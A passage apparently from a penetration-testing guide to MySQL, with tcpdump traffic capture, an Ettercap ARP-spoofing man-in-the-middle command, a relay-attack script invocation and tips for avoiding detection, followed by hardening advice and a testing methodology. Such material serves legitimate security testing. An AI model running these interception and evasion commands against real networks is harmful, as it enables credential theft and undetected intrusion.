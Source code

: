 ### Network Attacks

#### Capturing MySQL Traffic

```bash
# Using Wireshark or tcpdump
sudo tcpdump -i eth0 -A -s 0 'port 3306'
```

#### Man-in-the-Middle (MITM) Attacks

If MySQL is not using SSL/TLS, credentials and queries may be intercepted:

```bash
# Using Ettercap for MITM
sudo ettercap -T -q -i eth0 -M arp:remote /10.129.20.13/ //
```

#### Relay Attacks

Similar to SMB relay attacks, MySQL credentials can sometimes be relayed to other services:

```bash
# Example with custom relay tool
./mysql_relay.py -l 3306 -r target_ip -rp target_port
```

### Defense Evasion Techniques

#### Avoiding Detection During Testing

1. **Rate limiting**: Space out authentication attempts
2. **Minimal queries**: Only execute necessary queries
3. **Controlled connections**: Don't establish too many connections simultaneously
4. **Clean up**: Remove temporary files or artifacts

### Securing MySQL Services

When testing MySQL services, consider these security recommendations:

1. **Authentication**: Use strong, unique passwords and consider MFA
2. **Network security**: Restrict access to MySQL port
3. **File privileges**: Restrict `secure_file_priv` appropriately
4. **User privileges**: Apply principle of least privilege
5. **Encryption**: Enable SSL/TLS for connections
6. **Auditing**: Enable audit logging
7. **Regular updates**: Keep MySQL software updated

### Penetration Testing Methodology

When testing MySQL services, follow these steps:

1. **Discovery**: Identify MySQL services through port scanning
2. **Enumeration**: Determine version and configuration
3. **Authentication testing**: Test for weak credentials
4. **Privilege assessment**: Identify permissions of authenticated users
5. **Data analysis**: Enumerate and analyze accessible databases
6. **Vulnerability testing**: Test for known vulnerabilities based on version
7. **Configuration review**: Assess security settings
8. **Exploitation**: Leverage identified vulnerabilities
